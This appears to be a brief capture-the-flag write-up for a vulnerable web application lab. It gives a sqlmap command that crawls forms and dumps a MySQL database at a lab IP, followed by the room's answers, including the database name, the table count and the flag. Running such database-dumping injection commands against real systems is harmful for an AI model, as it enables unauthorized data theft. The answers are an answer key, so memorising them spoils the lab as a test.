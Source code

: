 # Vulnerable Web Application

```
export ip=10.10.29.114
```

## Nmap results in file **nmap/initial**

## Commands
```
sqlmap -u $ip --level=5 --forms --dbms=mysql --dump
```

## How many types of sqli is the site vulnerable to?

```
3
```

## What is the name of the database?

```
tests
```

## How many tables are in the database?

```
2
```

## What is the value of the flag?

```
found_me
```
